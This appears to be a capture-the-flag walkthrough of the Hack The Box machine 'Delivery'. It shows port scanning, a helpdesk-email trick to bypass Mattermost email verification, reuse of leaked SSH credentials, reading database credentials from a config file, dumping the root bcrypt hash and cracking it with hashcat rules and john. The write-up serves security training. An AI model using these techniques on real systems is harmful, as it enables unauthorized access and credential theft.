








<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></img></a>
</p>

# Scanning

## Nmap

`ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.222 | grep open | awk -F / '{print $1}' ORS=',') echo $ports && nmap -p$ports -sV -sC -v -T4 -oA scans/nmap.full 10.10.10.222`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp   open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome
8065/tcp open  unknown
| fingerprint-strings:
|   GenericLines, Help, RTSPRequest, SSLSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: no-cache, max-age=31556926, public
|     Content-Length: 3108
|     Content-Security-Policy: frame-ancestors 'self'; script-src 'self' cdn.rudderlabs.com
|     Content-Type: text/html; charset=utf-8
|     Last-Modified: Mon, 11 Jan 2021 04:55:31 GMT
|     X-Frame-Options: SAMEORIGIN
|     X-Request-Id: 5afry1r7n7yktqnmsk59adym1y
|     X-Version-Id: 5.30.0.5.30.1.57fb31b889bf81d99d8af8176d4bbaaa.false
|     Date: Mon, 11 Jan 2021 07:10:14 GMT
|     <!doctype html><html lang="en"><head><meta charset="utf-8"><meta name="viewport" content="width=device-width,initial-scale=1,maximum-scale=1,user-scalable=0"><meta name="robots" content="noindex, nofollow"><meta name="referrer" content="no-referrer"><title>Mattermost</title><meta name="mobile-web-app-capable" content="yes"><meta name="application-name" content="Mattermost"><meta name="format-detection" content="telephone=no"><link re
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Date: Mon, 11 Jan 2021 07:10:15 GMT
|_    Content-Length: 0
```

# Enumeration

## Port 80

* on port 80 found a subdomain- `http://helpdesk.delivery.htb/` and MatterMost server address- `http://delivery.htb:8065/`

  

## Port 8065

* MatterMost server in running on port 8065.
  * __MatterMost:__ Mattermost is an open-source, self-hostable online chat service with file sharing, search, and integrations. It is designed as an internal chat for organisations and companies, and mostly markets itself as an open-source alternative to Slack and Microsoft Teams.

* there is nothing and service is require login to access.
* when creating new account, it requires email verification and give resopsce -

      Please verify your email address. Check your inbox for an email.

## Subdomain

* subdomain- `http://helpdesk.delivery.htb/` is running __osTcket__.
  * __osTicket:__ osTicket is a widely-used open source support ticket system. It seamlessly integrates inquiries created via email, phone and web-based forms into a simple easy-to-use multi-user web interface.

* here `http://helpdesk.delivery.htb/open.php` when open a new ticket it gives an ticket number and email address.

  

* and from view ticket `http://helpdesk.delivery.htb/tickets.php` i can see my ticket.

  

* but here is the twiest, when i create a new ticket it give me an email and say `"If you want to add more information to your ticket, just email 4478570@delivery.htb"`
* That means i can add information in my created ticket by sending the infomation to that email.
* so, if i use that email to register on MetterMost server than i can get that verification link in my ticket and i got it.

  

* and now i can login into MetterMost server and here i found mose messages from root user -

  

* first message contains some creds `maildeliverer:Youve_G0t_Mail!` of the server and using ssh i can able to get user flag directly without any explotation.

*these creds also work in admin panel login `http://helpdesk.delivery.htb/scp/login.php` and initially i spend lot of time on admin panel for vulnerability but found nothing and then i tried to ssh in and it works so lesson here is that always try sshin fisrt if found any creds.*

*second message is also a important hint for root*

# User shell



* sql is running in local server 

      maildeliverer@Delivery:~$ ss -lntp | grep 3306
      LISTEN    0         80               127.0.0.1:3306             0.0.0.0:*

* and MatterMost server is using that database server -

  

* and the second message comes here with a hint that the database server is contains some hashes that are crackable using hashcat.
* but firt i need to find database creds and if MatterMost is using database that the creds are in the MatterMost config file as the tool documentation says __"Mattermost configuration settings are maintained in the `config.json`"__

* find the config file

      maildeliverer@Delivery:~$ find / -name config.json -type f -print 2>/dev/null
      /opt/mattermost/config/config.json

* inside the config file i found db creds -

      "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false
      },

  * __DB creds:__ `mmuser:Crack_The_MM_Admin_PW`

## mysql

* found root hash inside mattermost database. *here a small sql command [chart](http://g2pc1.bu.edu/~qzpeng/manual/MySQL%20Commands.htm)*

```sql
maildeliverer@Delivery:~$ mysql -u mmuser -pCrack_The_MM_Admin_PW
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 130
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [mattermost]> use mattermost;
Database changed
MariaDB [mattermost]> show tables;
+------------------------+
| Tables_in_mattermost   |
+------------------------+
| ... [snip] ...         |
| Users                  |
+------------------------+
46 rows in set (0.001 sec)

MariaDB [mattermost]> SELECT * FROM  Users WHERE Username = "root";
+----------------------------+---------------+---------------+----------+----------+--------------------------------------------------------------+----------+-------------+-------------------+---------------+----------+-----------+----------+----------+--------------------------+----------------+-------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------+-------------------+----------------+--------+------------------------------------------------------------------------------------------+-----------+-----------+
| Id                         | CreateAt      | UpdateAt      | DeleteAt | Username | Password                                                     | AuthData | AuthService | Email             | EmailVerified | Nickname | FirstName | LastName | Position | Roles                    | AllowMarketing | Props | NotifyProps                                                                                                                                                                  | LastPasswordUpdate | LastPictureUpdate | FailedAttempts | Locale | Timezone                                                                                 | MfaActive | MfaSecret |
+----------------------------+---------------+---------------+----------+----------+--------------------------------------------------------------+----------+-------------+-------------------+---------------+----------+-----------+----------+----------+--------------------------+----------------+-------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------+-------------------+----------------+--------+------------------------------------------------------------------------------------------+-----------+-----------+
| dijg7mcf4tf3xrgxi5ntqdefma | 1608992692294 | 1609157893370 |        0 | root     | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO | NULL     |             | root@delivery.htb |             1 |          |           |          |          | system_admin system_user |              1 | {}    | {"channel":"true","comments":"never","desktop":"mention","desktop_sound":"true","email":"true","first_name":"false","mention_keys":"","push":"mention","push_status":"away"} |      1609157893370 |                 0 |              0 | en     | {"automaticTimezone":"Africa/Abidjan","manualTimezone":"","useAutomaticTimezone":"true"} |         0 |           |
+----------------------------+---------------+---------------+----------+----------+--------------------------------------------------------------+----------+-------------+-------------------+---------------+----------+-----------+----------+----------+--------------------------+----------------+-------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------+-------------------+----------------+--------+------------------------------------------------------------------------------------------+-----------+-----------+
1 row in set (0.000 sec)
```

* __Get the hash:__ `root:$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO`


# Root shell

* Crack hash using hashcat *but it not gonna work because fisrt we need to understand the second hint* __use hascat rules to easily crack all variations of common words or phrases.__ *and that word or phrase is __PleaseSubscribe!__*

* searching on google found a perfact rule for this work from  [NotSoSecure@github](https://github.com/NotSoSecure/password_cracking_rules)

```bash
❯ hashcat -a 0 -m 3200 hash word -r OneRuleToRuleThemAll.rule --debug-mode=1 --debug-file=matched.rule --force
# hashcat is slow in linux so i use hashcat only or generating wordlist and then use john to crach the hash

❯ echo "PleaseSubscribe" | hashcat -r OneRuleToRuleThemAll.rule --stdout > wordlist

❯ sudo john hash -w=wordlist
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status

PleaseSubscribe!21 root
1g 0:00:01:38 DONE (2021-01-11 22:28) 0.01014g/s 130.7p/s 130.7c/s 130.7C/s PleaseSubscribe!p..PleaseSubscribe!14
Use the "--show" option to display all of the cracked passwords reliably
Session completed

❯ sudo john hash --show
root:PleaseSubscribe!21

1 password hash cracked, 0 left
```

* su to root

  

## Extras

* There is a notes.txt file in the root directory -

      root@Delivery:~# cat note.txt 
      I hope you enjoyed this box, the attack may seem silly but it demonstrates a pretty high risk vulnerability I've seen several times.  The inspiration for the box is here: 

      - https://medium.com/intigriti/how-i-hacked-hundreds-of-companies-through-their-helpdesk-b7680ddc2d4c 

      Keep on hacking! And please don't forget to subscribe to all the security streamers out there.

      - ippsec
